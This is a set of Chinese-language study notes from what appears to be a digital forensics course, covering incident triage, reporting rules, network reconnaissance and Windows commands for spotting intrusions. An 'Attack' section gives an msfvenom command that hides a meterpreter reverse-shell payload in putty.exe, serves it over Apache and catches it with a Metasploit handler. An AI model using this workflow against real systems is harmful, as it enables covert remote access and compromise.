 ## __Digital Forensics__

- triage 
    - 普篩檢測工具
- 風險評鑑
    - 看藉由這次攻擊會不會對系統產生影響
- IOC
    - 感染指標
- IOA
    - 攻擊指標
- PT滲透測試(用手動方式去測試弱點) v.s.弱點掃描(zero day)
    
- 資安法
    - 不適用於軍事情報
    - 3級和4級2hr要通報
    - 1級和2級8hr要通報

- 等級評估
    1. 國家機密
    2. 公務機密
    3. 核心業務
    4. CI維運(醫療、金融)



    ### kali&Windows XP 實作
    1. nmap -sP 192.168.169.0/24 (Ping整個區域網路的各個主機) -> 找尋target
        - sP -> ping ICMP的封包
    2. nmap -A 192.168.169.184 ->查看哪些有弱點
    ```
    先看service name&port then service version
    ```
    3. arp-scan -l -> 去搜尋訪問switch or hub or自己的routing table(問這主機有沒有在你的table裡面)
        - 若nmap -p & arp 所出來的主機數不同，則可能是有主機關機或離線 or 不給ping(代表藏有機密)
    4. snmp-check 192.168.169.184 (對方只要有開snmp且無做任何防禦，加上IP則可以看到很多資料)
        - 被ping的人可能可以從log來查看
    
    # Attack
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.169.141 (Kali's IP) LPORT=8888 -f exe -k -x /root/Downloads/putty.exe > /var/www/html/cgu.exe
        - make weapon
    - service apache2 start(若內部網路的人開了ftp http等，代表不正常 -> 正常網路不會去開Apache)
    - msfconsole (開這個被害者不會有痕跡)
    - use exploit/multi/handler
        - set lport
        - set payload
        - set lhost
```
以上三個set都要在use之後，且須對應到要送出的惡意程式
```
    
   - 被攻擊方 ->  winxp open ie + IP download 惡意程式

   - cport第三方工具
   - currports TCPview

   ## windows cmd

- step 1
    - ipconfig (看到IP，要確認是否為合法IP)
    - ipconfig /all (看到所有有關IP的東西)
- step 2 
    - arp -a (`baseline` -> list -> static IP list 固定IP清單) -> 看是否有可疑的IP或連線
    -  若為dynamic則不好搞(Thus Static IP是公司基本的設定)
- step 3
    - netstat -anbo(for checking whether there's problem or not)
```
必看 status 中的established(正在被打) & listen(等著被打)
在看到status中有established的時候要動作快 -> (1)看IP&Port
(2)右邊是Dst(遠端主機幫我們連線的IP&port) (3)看程式名稱與port&IP的關聯以及其PID

4444 8888 通常是駭客
```
  
- Ping網址與IP是不一樣的
- 指令
    - /v (把人顯示出來-> 會看到username)
    - /m 調出函式庫(DLL)
    - /svc 看有沒有開機(?
    - schtasks(判斷程式出來的結果，若有就要看，若沒有申請單說要申請什麼的schedule就代表有問題 -> 因此申請單為此baseline)
    - SIGVERIF(看什麼東西是否有簽章)
- 網站
    - whois
    - black IP list

